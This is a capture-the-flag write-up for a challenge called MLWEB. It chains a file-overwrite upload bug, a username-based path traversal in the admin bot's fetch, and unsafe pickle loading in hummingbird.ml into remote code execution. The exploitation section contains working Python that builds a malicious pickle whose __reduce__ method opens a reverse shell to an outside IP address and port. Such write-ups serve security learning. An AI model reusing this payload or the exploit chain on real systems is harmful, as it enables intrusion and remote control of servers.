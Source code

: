 # MLWEB

![head](images/head.png)

## Website overview

Looking at the source code, there are some interesting parts :

In : routes/routes_user.py
```py
@bp_user.route('/upload', methods=['GET', 'POST'])
@login_required
def upload_model():
    if request.method == 'POST':
        if 'file' not in request.files:
            flash("Please select a file to upload", "danger")
            return redirect(url_for('bp_user.upload_model'))

        file = request.files['file']
        if file.filename == '' or not check_allowed_extensions(file.filename):
            flash("Please use a valid file and filename", "danger")
            return redirect(url_for('bp_user.upload_model'))

        filename = secure_filename(file.filename)
        file_path = os.path.join(current_app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)

        model = OptimizedModel(name=file.filename, file_path=file_path, user_id=session['user_id'])
        db.session.add(model)
        db.session.commit()
        flash("File successfully uploaded", "success")
        return redirect(url_for('bp_user.upload_model'))

    return render_template('upload.html')
```

We can see that when uploading a file, the program doesn't check if a file already exists. With this, we can easily overwrite files by knowing there name (as long as it stays in upload directory).

In : templates/view_profile.html
```html
<script>
document.addEventListener("DOMContentLoaded", function () {
     const statusLabel = document.getElementById("statusLabel");
    
    fetch('/profile/{{ user.username }}/is_logged')
        .then(response => response.json())
        .then(data => {
            if (data.is_logged) {
                statusLabel.innerHTML = "Status: <strong class='text-success'>Active</strong>";
            } else {
                statusLabel.innerHTML = "Status: <strong class='text-danger'>Inactive</strong>";
            }
        }
    );
});
</script>
```

In this template, we can use a username like `../where/u/want?` to do a get somewhere on the website.


In : routes/admin_routes.py
```py
@bp_admin.route('/model/load/<int:model_id>', methods=['GET'])
@admin_required
def load_model(model_id):
    print("good")
    model = OptimizedModel.query.filter_by(id=model_id, user_id=session['user_id']).first()
    if not model:
        flash("Model not found", "danger")
        return redirect(url_for('bp_user.list_models'))

    try:
        load(model.file_path)
        flash("Model successfully loaded", "success")
    except Exception as e:
        flash("Error loading model: {}".format(e), "danger")

    return redirect(url_for('bp_user.list_models'))
```

We can see that the `load` function of `hummingbird.ml` is used. By looking at the source code [here](https://github.com/microsoft/hummingbird/blob/main/hummingbird/ml/_utils.py) and [here](https://github.com/microsoft/hummingbird/blob/main/hummingbird/ml/containers/sklearn/pytorch_containers.py):


```py
def load(location, digest=None, override_flag=False):

    ...

    if "torch" in model_type:
        model = PyTorchSklearnContainer.load(location, do_unzip_and_model_type_check=False, digest=digest)
    elif "onnx" in model_type:
        model = ONNXSklearnContainer.load(location, do_unzip_and_model_type_check=False, digest=digest)
    elif "tvm" in model_type:
        model = TVMSklearnContainer.load(location, do_unzip_and_model_type_check=False, digest=digest)
    else:
        shutil.rmtree(location)
        raise RuntimeError("Model type {} not recognized.".format(model_type))
    
    ...
```

```py
class PyTorchSklearnContainer(SklearnContainer):
    @staticmethod
    def load(location, do_unzip_and_model_type_check=True, delete_unzip_location_folder: bool = True, digest=None, override_flag=False):
        
        ...

        if model_type == "torch.jit":
            # This is a torch.jit model
            model = torch.jit.load(os.path.join(location, constants.SAVE_LOAD_TORCH_JIT_PATH))
            with open(os.path.join(location, "container.pkl"), "rb") as file:
                container = pickle.load(file)
            container._model = model
        elif model_type == "torch":
            # This is a pytorch  model
            with open(os.path.join(location, constants.SAVE_LOAD_TORCH_JIT_PATH), "rb") as file:
                container = pickle.load(file)
        else:
            if delete_unzip_location_folder:
                shutil.rmtree(location)
            raise RuntimeError("Model type {} not recognized".format(model_type))
        
        ...
```

We can see that the module pickle is used, this module is prone to RCE when unpacking cradted files.

To sum up the discoveries, if we can somehow load a file that we uploaded, it's possible to gain remote code execution.

Unfortunately, the endpoint `/model/load/<int:model_id>` is only available for admins and runs only if the user is the owner of the file.



## Bot overview

After logging in, we can see a button called `visit my profile`.

![screen1](images/screen1.png)

When we click on it, it calls the bot. This bot uses `selenium` to execute this litle code.

```py
@bp_user.route('/profile/visit')
@login_required
def visit_profile():
    user_id = int(request.args.get('user_id', session['user_id']))
    visit_url(f"/profile/{user_id}")

    flash("Bot successfully reported", "success")
    return redirect(url_for('bp_user.view_profile', user_id=user_id))
```

```py
def visit_url(path):
    driver = webdriver.Firefox()

    driver.get(BASE_URL + "/login")
    sleep(0.5)

    username_field = driver.find_element(By.NAME, "username")
    username_field.send_keys("admin")
    password_field = driver.find_element(By.NAME, "password")
    password_field.send_keys(Config.ADMIN_PASSWORD)
    login_button = driver.find_element(By.ID, "loginBtn")
    login_button.click()
    
    sleep(0.5)
    driver.get(BASE_URL + path)

    sleep(3)
    driver.quit()
```

So the bot gets the URL `/profile/{user_id}` which contains the vulnerable template discovered previously (that allows to fetch where we want on the website). With this first vulnerability, it's possible to make him get another page, like `/model/load/x?`. Because of the owner restrtiction, the only load possible is `/model/load/1?`.

Now that we can make him load his file, we can change it by uploading a new file called `example_model.zip` to overwrite his to gain remote code execution.


# Exploitation

To sum up what we are going to do:
- create an account 
- upload a file with the same structure as `example_model.zip` but with a backdoor
- create a user called `../model/load/1?`
- click on the button `visit my profile`

Let's firstly craft a RCE payload. To do that, I'm going to use a simple reverse shell.

```py
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = "export RHOST=\"185.48.117.254\";export RPORT=9000;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(\"RHOST\"),int(os.getenv(\"RPORT\"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"sh\")'"
        return os.system, (cmd,)

with open("exp2", 'wb') as f:
    pickle.dump(RCE(), f)
```

This [script](picksploit.py) abuses the `__reduce__` property, called when loading in pickle.

Based on the informations of the example file we need to rename our payload `deploy_model.zip` and create an archive containing the 2 configuration files.

```
example_model.zip
  |
  | -- model_configuration.txt
  | -- model_type.txt
   \-- deploy_model.zip (=exp2)
```

Then, we need to create a user, let's say `a`, and upload the [achive](example_model.zip).

![screen2](images/screen2.png)

Then we need to create the account `../model/load/1?` and ask the bot to visit us.

![screen3](images/screen3.png)

If we look at the listener, we can now see the revserse shell.

![screen4](images/screen4.png)

Here is the flag !

Thaks for the challenge.



